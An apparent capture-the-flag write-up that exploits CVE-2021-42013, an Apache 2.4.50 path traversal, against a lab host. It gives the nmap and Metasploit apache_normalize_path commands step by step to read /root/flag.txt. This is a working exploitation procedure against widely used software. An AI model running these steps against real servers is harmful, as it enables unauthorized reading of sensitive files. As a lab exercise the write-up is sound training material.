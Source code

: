 # Vulnerability Exploitation Report: CVE-2021-42013

## Vulnerability Overview
**CVE ID**: CVE-2021-42013  
**CVSS Score**: 9.8 (Critical)  
**Description**: A path traversal vulnerability in Apache HTTP Server (version 2.4.50) allows unauthenticated attackers to access arbitrary files outside the web root directory by crafting malicious requests. This critical flaw can lead to unauthorized access to sensitive files on the server.

## Objective
Exploit the CVE-2021-42013 path traversal vulnerability on a target Apache HTTP Server to read the `/root/flag.txt` file as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.4
- **Target Port**: 80 (HTTP)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.4) to confirm the presence of Apache HTTP Server.

```
nmap -sV 192.168.5.4
```

### Step 3: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 4: Search for Apache Exploit
Search Metasploit for modules related to Apache HTTP Server version 2.4.50.

```
search apache 2.4.50
```

### Step 5: Select Path Traversal Module
Choose the Metasploit module for the Apache path traversal vulnerability.

```
use auxiliary/scanner/http/apache_normalize_path
```

### Step 6: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 7: Configure the Target Host
Set the target host to the Apache server’s IP address.

```
set RHOSTS 192.168.5.4
```

### Step 8: Configure the Target Port
Set the target port to 80 for HTTP communication.

```
set RPORT 80
```

### Step 9: Disable SSL
Configure the module to use HTTP instead of HTTPS.

```
set SSL false
```

### Step 10: Specify File to Read
Set the file path to the target file `/root/flag.txt`.

```
set FILEPATH /root/flag.txt
```

### Step 11: Set Action to Read File
Configure the module to perform a file read operation.

```
set action READ_FILE
```

### Step 12: Execute the Exploit
Run the exploit to attempt to read the specified file via the path traversal vulnerability.

```
exploit
```

### Step 13: Exit Metasploit
Exit the Metasploit console after the exploit completes.

```
exit
```

### Step 14: Retrieve the Loot
Access the file retrieved by Metasploit from the local loot directory.

```
cat /root/.msf4/loot/{fname}.bin
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: tGEsSPrGsbWunrAD